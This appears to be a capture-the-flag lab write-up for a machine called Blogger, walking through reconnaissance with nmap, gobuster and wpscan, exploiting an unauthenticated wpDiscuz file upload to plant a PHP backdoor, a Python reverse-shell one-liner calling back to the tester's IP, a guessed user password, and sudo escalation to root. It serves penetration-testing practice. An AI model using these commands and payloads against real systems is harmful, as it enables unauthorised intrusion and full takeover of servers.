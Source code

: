 ### IP
`192.168.211.217`

# Reconnaissance

### nmap

`nmap -sC -sV 192.168.211.217`
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 951d828f5ede9a00a80739bdacadd344 (RSA)
|   256 d7b452a2c8fab70ed1a8d070cd6b3690 (ECDSA)
|_  256 dff24f773344d593d77917455aa1368b (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Blogger | Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### gobuster

`gobuster dir -u http://192.168.211.217/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100`
```
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.211.217/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 22:48:01 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 319] [--> http://192.168.211.217/assets/]
/css                  (Status: 301) [Size: 316] [--> http://192.168.211.217/css/]
/js                   (Status: 301) [Size: 315] [--> http://192.168.211.217/js/]
/images               (Status: 301) [Size: 319] [--> http://192.168.211.217/images/]
/server-status        (Status: 403) [Size: 280]
===============================================================
2023/05/08 22:50:46 Finished
===============================================================

```
The directories seem to have directory listing enabled.

One particularly interesting directory is `/assets/fonts/`, as it has a blog directory with a whole new website (which is quite unusual)

Here, we can see a wordpress blog with a login form. Some of the pages also leak the hostname as `blogger.thm`

# Exploitation

### wpscan

We can enumerate wordpress:

`wpscan --url http://blogger.thm/assets/fonts/blog --plugins-detection mixed -e`

One thing this finds is that there is unauthenticated file upload through the comments (and thus RCE since we can view and execute php files in the uploads)

```
[!] Title: Comments - wpDiscuz 7.0.0 - 7.0.4 - Unauthenticated Arbitrary File Upload
    Fixed in: 7.0.5
    References:
     - https://wpscan.com/vulnerability/92ae2765-dac8-49dc-a361-99c799573e61
     - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-24186
     - https://www.wordfence.com/blog/2020/07/critical-arbitrary-file-upload-vulnerability-patched-in-wpdiscuz-plugin/
     - https://plugins.trac.wordpress.org/changeset/2345429/wpdiscuz
```


We can run `searchsploit wpDiscuz` and then `searchsploit -m php/webapps/49967.py` to get a script to use for unauthenticated RCE

Per the exploit, I do the following to get a php backdoor on the page:

`python3 49967.py -u http://blogger.thm/assets/fonts/blog -p /?p=29`

This provides us a link to a php file where we can execute commands through a `cmd` get parameter

I set up a listener with `nc -lvnp 1337` and used the following command to get a reverse shell:

`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.45.5",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'`

I then ran `linpeas.sh` to look for exploits, but couldn't find much.

However, I found that the `vagrant` user had its own username as a password, which was a suggestion made by linpeas.

# Privilege Escalation

Running `sudo -l` on the vagrant user shows us the following:

```
Matching Defaults entries for vagrant on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User vagrant may run the following commands on ubuntu-xenial:
    (ALL) NOPASSWD: ALL

```

Vagrant can run all commands as all users without a password. Thus, we can run `sudo su` to become root and get the root flag